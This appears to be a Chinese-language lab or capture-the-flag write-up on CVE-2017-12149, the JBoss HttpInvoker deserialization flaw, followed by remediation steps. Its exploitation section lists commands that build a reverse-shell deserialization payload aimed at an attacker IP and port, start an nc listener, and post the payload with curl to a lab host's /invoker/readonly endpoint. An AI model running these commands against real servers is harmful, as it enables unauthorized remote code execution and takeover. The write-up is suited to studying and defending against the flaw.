



# JBOSS 命令执行（CVE-2017-12149) by [xiajibaxie](https://github.com/xiajibaxie)

## 一，漏洞描述

JBOSS Application Server是一个基于J2EE的开放源代码的应用服务器。
2017年8月30日，厂商Redhat发布了一个JBOSSAS 5.x 的反序列化远程代码执行漏洞通告。该漏洞位于JBoss的HttpInvoker组件中的 ReadOnlyAccessFilter 过滤器中，其doFilter方法在没有进行任何安全检查和限制的情况下尝试将来自客户端的序列化数据流进行反序列化，导致攻击者可以通过精心设计的序列化数据来执行任意代码。但近期有安全研究者发现JBOSSAS 6.x也受该漏洞影响，攻击者利用该漏洞无需用户验证在系统上执行任意命令，获得服务器的控制权。


## 二，影响版本

```
5.x和6.x版本的JBOSSAS
```

## 三，利用流程

访问地址： `10.10.11.20:49069`

名称： CVE-2017-12149

下载exp

`git clone https://github.com/joaomatosf/JavaDeserH2HC`



执行命令

```
设置反弹的ip和端口
javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap ip:port
本地设置监听
nc -lvvp 1234
发送数据包
curl http://10.10.11.20:49069/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser
```



执行命令获得flag



通关！

## 四，修复方案

1.升级到JBOSS AS7。

2.临时解决方案：

​   (1) 不需要 http-invoker.sar 组件的用户可直接删除此组件。

​   (2) 添加如下代码至 http-invoker.sar 下 web.xml 的 security-constraint 标签中：<url-pattern>/*</url-pattern>用于对 http invoker 组件进行访问控制。


